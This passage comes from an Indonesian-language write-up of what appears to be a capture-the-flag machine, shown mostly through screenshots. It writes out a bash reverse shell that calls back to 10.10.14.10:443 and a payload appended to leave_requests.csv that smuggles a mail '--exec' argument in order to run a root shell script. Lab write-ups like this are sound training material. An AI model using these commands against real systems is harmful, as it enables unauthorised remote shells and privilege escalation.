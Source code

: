 Setelah itu kita buat file dengan code dibawah, dengan nama shell pada directory ```/tmp/``` dan ubah permisionnya menjadi dengan ```chmod +x shell.sh```
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.10/443 0>&1
```

Selanjutnya ktia copy data yang kita add cart tadi menjadi backup. Dan kita menambahkan payload:
![image](https://media.discordapp.net/attachments/740245586095112242/1057853628859297892/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1057853676565319750/image.png)

Dan kita intercept pada burpsuite setelah itu kita remove dan kita akan mendapatkan hasil request code. tambahkan payloadnya dengan yang tadi dan kita sambungkan dengan netcat.
![image](https://media.discordapp.net/attachments/740245586095112242/1057853959160746054/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1057854191609073684/image.png)

Disini kita mencoba medownload linpeas dan pspy untuk melihat sesuatu apa yang bisa melihat privileges apa yang bisa kita exploitasikan. Dari hasil log yang kita dapat dengan menscan tadi, kita dapat memodif ```leave_request.csv```
![image](https://media.discordapp.net/attachments/740245586095112242/1057854558547746916/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1057854584950890626/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1057854616450113666/image.png)

Kita mencoba melihat isi file leave_requests.csv disini terdapat username. Kita mencoba menambahkan dengan cara ```echo “testingyupy” >> leave_requests.csv```
![image](https://media.discordapp.net/attachments/740245586095112242/1057855045770678302/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1057855067165818971/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1057855097322876998/image.png)

Disini kita mendapatkan log seperti gambar dibawah yang dijelaskan bash menjalankan secara langsung dengan script ```notify.sh```
![image](https://media.discordapp.net/attachments/740245586095112242/1057855369369620530/image.png)

Kita membuat file lagi dengan payload dibawah:

![image](https://media.discordapp.net/attachments/740245586095112242/1057855561527459921/image.png)

Dan menambahkan payload yang saya dapatkan pada [GTFobins](https://gtfobins.github.io/gtfobins/mail/#shell), dijelaskan payload ini akan mengeksekusi ```/tmp/root.sh``` yang bisa menjalankan bash dengan root access
![image](https://media.discordapp.net/attachments/740245586095112242/1057855860807835718/image.png)
```bash
echo '" --exec="\!/tmp/root.sh"' >> leave_requests.csv
```
![image](https://media.discordapp.net/attachments/740245586095112242/1057856332230828072/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1057856464875688027/image.png)
